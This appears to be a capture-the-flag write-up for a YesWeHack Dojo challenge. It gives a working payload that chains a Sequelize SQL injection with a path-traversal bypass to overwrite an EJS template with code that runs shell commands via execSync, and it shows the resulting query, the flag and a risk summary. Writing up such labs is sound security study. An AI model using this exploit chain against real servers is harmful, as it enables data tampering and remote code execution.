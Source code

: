 
## PoC

The final payload involves using the SQL injection to fetch the "leet" user and the path traversal vulnerability to overwrite `/tmp/view/index.ejs` to read the flag on the server.

```
{"updatedat":" ) or verify=0 --","username":":updatedat","attachment":"..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c/tmp/view/index.ejs","content":"<!DOCTYPE html><html><head><title>Please work</title></head><body><pre><%- global.process.mainModule.constructor._load('child_process').execSync('cat flag*').toString() %></pre></body></html>"}
```

This results in Sequelize generating the following query which closes the bracket for `(strftime` early and commenting out the rest to fetch the "leet" user.

```
SELECT * FROM `Users` AS `User` WHERE (strftime('%Y-%m-%d', updatedAt) >= ' ) or verify=0 --' AND `User`.`name` = '' ) or verify=0 --'' AND `User`.`verify` = 1) LIMIT 1
```

![](/assets/img/2025-10-29-yeswehack-dojo-45/flag.png)

Flag: `FLAG{Bug_C4ins_Br1ng5_Th3_B3st_Imp4ct}`

## Risk

The use of vulnerable packages in the application poses significant risk as they can be exploited by an attacker to ultimately gain remote code execution on the server.

First, the SQL vulnerability in Sequelize replacements allows an attacker to inject arbitrary SQL code into the original query and manipulate its behaviour.
An attacker is then able to gain unauthorised access to read, modify, or delete data from the database.

Next, the path traversal bypass in `path-sanitizer` allows an attacker to perform a path traveral attack to write arbitrary file outside of the intended directory.
This can enable remote code execution by overwriting files on the web server.
